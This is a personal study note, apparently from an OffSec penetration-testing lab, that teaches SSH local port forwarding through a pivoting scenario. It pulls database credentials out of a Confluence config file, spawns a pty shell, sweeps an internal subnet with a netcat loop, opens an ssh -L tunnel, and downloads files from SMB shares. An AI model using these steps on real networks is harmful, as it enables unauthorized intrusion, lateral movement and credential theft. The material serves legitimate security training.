


---
aliases:
  - local port forwarding
  - SSH local port forwarding
  - local port forward
---
# SSH Local Port Forwarding
Unlike regular [port forwarding](../../../networking/routing/port-forwarding.md) (where listening for and then forwarding the traffic from a port happens on the same host), in SSH port forwarding the packets being forwarded *are not forwarded by the same host*. 

Instead, an [SSH](../../../networking/protocols/SSH.md) connection is made between two hosts, one being an SSH client and the other being an SSH server. The client opens a *listening port* and all of the traffic/packets received on this port *are tunneled through the SSH connection to the SSH server*. 

The SSH server then *forwards the packets to the specified [socket](../../../networking/OSI/3-network/socket.md).*
## Example Scenario
Assume we have the same scenario as outlined in [port-forwarding-scenario](../linux-tools/port-forwarding-scenario.md), except this time, the `CONFLUENCE01` server we compromised *doesn't have [socat](../linux-tools/socat.md)* so we can't easily . Assume we also still found admin creds to `PGDATABASE01` via:
```bash
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
<sian/application-data/confluence/confluence.cfg.xml   
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
...
  </properties>
</confluence-configuration>
...
```
We can use these creds to SSH into `PGDATABASE01` which is on the internal/[DMZ](../../../networking/design-structure/DMZ.md) [subnet](../../../PNPT/PEH/networking/subnetting.md). From the `PGDATABASE01` machine we find an [SMB](../../../networking/protocols/SMB.md) server with [TCP](../../../networking/protocols/TCP.md) port `445` open on a second internal subnet. So, the network topology we've discovered so far, and the connection to the SMB server we want to achieve, looks like this:

## Enumerating `PGDATABASE01`
To set up an SSH local port forward, we need to know the IP address and port we want our packets forwarded to. So the first step is to log in to `PGDATABASE01` (from `CONFLUENCE01`) and start our enumeration process:
### SSH Into `PGDATABASE01`
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'

$ ssh database_admin@10.4.50.215
<sian/confluence/bin$ ssh database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.50.215 (10.4.50.215)' can't be established.
ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.50.215's password: 

Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 03:01:09 PM UTC

  System load:  0.0               Processes:               241
  Usage of /:   59.4% of 7.77GB   Users logged in:         2
  Memory usage: 16%               IPv4 address for ens192: 10.4.50.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.50.215


0 updates can be applied immediately.

Last login: Thu Aug 18 11:43:08 2022 from 10.4.50.63
database_admin@pgdatabase01:~$
```
### `ip addr`
To find the target IP address, we can start by enumerating the network interfaces on the host using `ip addr`:
```bash
database_admin@pgdatabase01:~$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:6b:9b brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.215/24 brd 10.4.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:6b9b/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:0d:b6 brd ff:ff:ff:ff:ff:ff
    inet 172.16.50.215/24 brd 172.16.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:db6/64 scope link 
       valid_lft forever preferred_lft forever
4: ens256: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 00:50:56:8a:f0:8e brd ff:ff:ff:ff:ff:ff
```
From the output, we can see 4 interfaces. One is the [loopback](../../../networking/routing/loopback.md) interface (which we don't care about right now), one is `ens192` which is in the same subnet as `CONFLUENCE01` (`10.4.50.0/24`). Interface 3 is `ens224` which is part of a *different subnet we have yet to discover*, and the fourth interface in the listing is `DOWN`, so we don't care. 
### `ip route`
Interface 3/ `ens192` is the interface with the subnet we want to focus on. Next, let's see if this new subnet is in the system's routing table:
```bash
database_admin@pgdatabase01:~$ ip route
10.4.50.0/24 dev ens192 proto kernel scope link src 10.4.50.215 
10.4.50.0/24 via 10.4.50.254 dev ens192 proto static
172.16.50.0/24 dev ens224 proto kernel scope link src 172.16.50.215 
172.16.50.0/24 via 172.16.50.254 dev ens224 proto static
```
This confirms that `PGDATABASE01` is attached to a second, internal subnet (`172.16.50.0/24`).
### Port Scanning the Subnet
Unfortunately, `PGDATABASE01` does not have a [port scanning](../../enum-and-info-gathering/active/port-scanning.md) tool installed on it. But that's fine, because we can just write a simple [bash](../../../coding/languages/bash.md) script to do the job.
> [!Note]
>  Offsec sort of just jumps to scanning the entire subnet for hosts with port `445` open. They don't really explain how they made the jump from finding the subnet to deciding there is a host somewhere within it with an SMB service running on `445`. So I guess, logically the next step would actually be to scan for hosts in the subnet in general, not specifically for `445`, but that's what this bash script does... Sorry? Maybe while enumerating `PGDATABASE01` we find evidence of network traffic going to an SMB service... but then we'd probably have the IP address of the host its going to? IDK, whatever lol

```bash
database_admin@pgdatabase01:~$ for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
< (seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
nc: connect to 172.16.50.1 port 445 (tcp) timed out: Operation now in progress
...
nc: connect to 172.16.50.216 port 445 (tcp) failed: Connection refused
Connection to 172.16.50.217 445 port [tcp/microsoft-ds] succeeded!
nc: connect to 172.16.50.218 port 445 (tcp) timed out: Operation now in progress
...

database_admin@pgdatabase01:~$ 
```
Our script uses [netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md) to sweep the entire [CIDR](../../../networking/routing/CIDR.md) block for live hosts with port `445` open. The `-z` flag checks for a listening port *without sending data*. The `-w` flag set to 1 ensures a *lower time-out threshold*, and `-v` is for verbosity.

While most of the attempted hosts time out, two hosts respond. The first (`172.16.50.216`) refuses the connection outright (which indicates there is a live host at that address). The second (`172.16.50.217`) accepts the connection *making this host our target*.
## Enumerating the Discovered SMB Service
Now that we've found our target SMB host and port, we want to enumerate it and be able to download anything that we find. HOWEVER, if we use some built-in SMB tool from `PGDATABASE01` to connect to the SMB service, then it will be a tedious process to download anything we find (first onto `PGDATA` then to `CONFLUENCE` and then finally to our attacking box). This is where SSH local port forwarding comes in handy!
### General Plan
First, we need to create an SSH connection from `CON01` to `PGD01`. As part of this connection we can create the SSH local port forward. We want our connection to listen on port `4455` of the [WAN](../../../networking/design-structure/WAN.md) interface on `CON01`. This would make `CON01` the *SSH client*. 

Any packets arriving to `4455` on `CON01` should then be forwarded through the SSH connection to `PGD01` (which would be the *SSH server* in this case). `PGD01` should then then forward any packets through the SSH connect from `CON01` to the *SMB host* (`172.16.50.217`).
### `ssh -L`
OpenSSH can facilitate local port forwarding via its `-L` flag. The `-L` flag takes two sockets:
1. the listening socket bound to the SSH client machine
2. the destination socket

The two sockets should be given in the following format:
```
IPADDRESS:PORT:IPADDRESS:PORT
```
Notice that the two sockets are separated by a single `:`. After giving the `-L` flag, the rest of the `openssh` command is the same:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
<0:4455:172.16.50.217:445 database_admin@10.4.50.215   
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.50.215 (10.4.50.215)' can't be established.
ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.50.215's password: 
```
Notice that we give `-N` which *prevents a shell from being opened*. Additionally, we give the *any address* (`0.0.0.0`) for the SSH client listening address (since we're executing this command from `CON01`-- the SSH client machine). Lastly, notice that we're supplying the credentials we found on `CON01` which we used earlier to gain access to `PGD01`. That's because `PGD01` is the *SSH server for this transaction* and will be facilitating the local port forward.
### Using the Tunnel
All we've done is implemented the tunnel/ local port forward to the target SMB machine. However, you'll notice that after running the OpenSSH command, there is no output in the terminal. That's due to the `-N` flag. The session is live, but we don't have an *interactive* connection to it. 

In other words, port `4455` on `CON01` is listening for connections/ traffic and the SSH connection is ready to forward that traffic to the SMB host. We can confirm the port is listening by using the `ss` command on `CON01`:
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ss -ntplu 
ss -ntplu
Netid  State   Recv-Q  Send-Q         Local Address:Port     Peer Address:Port  Process                                                                         
udp    UNCONN  0       0              127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:4455          0.0.0.0:*      users:(("ssh",pid=59288,fd=4))
tcp    LISTEN  0       4096           127.0.0.53%lo:53            0.0.0.0:*
tcp    LISTEN  0       128                  0.0.0.0:22            0.0.0.0:*
tcp    LISTEN  0       128                     [::]:22               [::]:*
tcp    LISTEN  0       10                         *:8090                *:*      users:(("java",pid=1020,fd=44))
tcp    LISTEN  0       1024                       *:8091                *:*      users:(("java",pid=1311,fd=15))
tcp    LISTEN  0       1         [::ffff:127.0.0.1]:8000                *:*      users:(("java",pid=1020,fd=76))
```
To actually use the connection, all we have to do is launch a second rev shell from our attacking box (remember that we used [_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) to establish the shell before). Make sure to edit the payload so that the shell connects to port `4455` on the Confluence host. Once we connect with the rev shell, everything will be forwarded to the SMB host *as if we were connecting to it directly*:

### Enumerating the SMB Server
Once we connect to `CONF01:4455` from our Kali machine, we can enumerate the SMB service using [smbclient](../../../CLI-tools/linux/remote/smbclient.md). Let's start by listing shares with `-L` (assume we got the username and password from the `confluence` table in the PostgreSQL database on `PGDATABASE01`):
```bash
kali@kali:~$ smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```
Looks like the two non-default shares are `scripts` and `Users`. Let's checkout `scripts` and download whatever we find there:
```bash
kali@kali:~$ smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 18 22:21:24 2022
  ..                                 DR        0  Thu Aug 18 19:42:49 2022
  Provisioning.ps1                    A      387  Thu Aug 18 22:21:52 2022
  README.txt                          A      145  Thu Aug 18 22:22:40 2022

                5319935 blocks of size 4096. 152141 blocks available

smb: \> get Provisioning.ps1
getting file \Provisioning.ps1 of size 387 as Provisioning.ps1 (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)

smb: \> 
```
Nice! The `Provisioning.ps1` file is now downloaded directly to our Kali machine!

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.